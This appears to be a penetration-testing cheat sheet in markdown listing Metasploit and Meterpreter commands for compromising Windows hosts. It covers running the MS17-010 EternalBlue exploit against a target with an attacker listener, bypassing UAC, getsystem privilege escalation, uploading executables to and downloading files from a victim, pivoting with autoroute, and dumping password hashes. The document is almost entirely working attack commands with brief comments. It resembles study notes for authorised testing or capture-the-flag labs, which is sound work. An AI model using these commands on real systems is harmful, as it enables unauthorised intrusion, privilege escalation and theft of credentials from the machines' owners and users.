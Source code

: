 ```sh
search <Exploit_Module>           #Search for a specific module 
show exploits                     #Aonther way to display exploits
show payloads                     #display payloads
use exploit/windows/smb/ms17_010_psexec        #to use exploit 
show options                      #Check options and required value
set <OpationName> value           #To configure an option
exploit                           #Execution of exploitation
``` 
## Metasploit Meterpreter autoroute
```sh
run autoroute -s 10.10.10.0/24
```
## Meterpreter
```sh
ps
getuid
getpid
getsystem
search -f *.txt     #search file 
download Filename /root/****               #Download From victm machine to your machine 
upload   /****/exploit.exe C://Windows     #Upload from your machine to victm machine   
shell               #run a standard operating system shell 
sysinfo             #information about the victm Machine 
background          #Switch from a Meterpreter session to the msfconsole command line 
```
**CHECK UAC/Privileges**
```sh
run post/windows/gather/win_privs
```
**BYPASS UAC**
*Background the session first*
```sh
exploit/windows/local/bypassuac
set session
```
## MS17-010 EternalBlue SMB Remote
```sh
exploit(windows/smb/ms17_010_psexec)> set RHOST </Target-IP\>
exploit(windows/smb/ms17_010_psexec)> set LHOST </Attacker-IP\>
exploit(windows/smb/ms17_010_psexec)> run 
```
**After PrivEsc**
```sh
migrate </pid\>   
hashdump          #To extract the Users with Hash Passwords 
``` 
## Windows Command Line
**To search for files and Folders**
```sh
dir /b/s "\*.conf\*"
dir /b/s "\*.txt\*"
dir /b/s "\*filename\*"
cd         #it's the same as 'pwd' command in linux
type       #it's the same as 'cat' command in linux
systeminfo         #information about the Operating System
```
